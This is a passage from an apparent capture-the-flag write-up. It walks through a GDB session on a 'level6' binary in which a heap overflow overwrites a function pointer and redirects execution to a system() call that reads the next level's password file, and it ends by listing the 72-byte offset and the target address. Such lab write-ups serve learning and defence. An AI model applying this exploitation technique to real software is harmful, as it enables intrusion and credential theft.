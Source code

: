 This matches the address of `n()`, confirming that our overwrite succeeded.

Now step into the function call:

```gdb
(gdb) si
(gdb) si
```

You should land at the entry of `n()`:

```gdb
(gdb) x/i $eip
=> 0x8048454 <n>: push   %ebp
```

Then step into the `system()` call:

```gdb
(gdb) break *0x08048461
(gdb) continue
```

Confirm the argument passed to `system()`:

The address passed to `system()` is loaded via:

```asm
0x0804845a <+6>: movl   $0x80485b0,(%esp)
```

This hardcoded pointer refers to the string:

```gdb
(gdb) x/s 0x080485b0
0x080485b0: "/bin/cat /home/user/level7/.pass"
```

This confirms that `n()` prepares the expected system command correctly.

The system call is set up with the correct command, and the password is printed once the call is executed.

---

## Conclusion

This GDB session demonstrates that the level6 binary is vulnerable to a heap-based buffer overflow. By overflowing the buffer returned by the first `malloc()`, we overwrote the function pointer stored in the second `malloc()` buffer. The redirection to `n()` allowed us to execute arbitrary code, specifically, a call to `system("/bin/cat /home/user/level7/.pass")`.

**Key findings:**

* Offset to function pointer: 72 bytes
* Target address: `n()` at `0x08048454`
* Exploitable via direct `argv[1]` injection

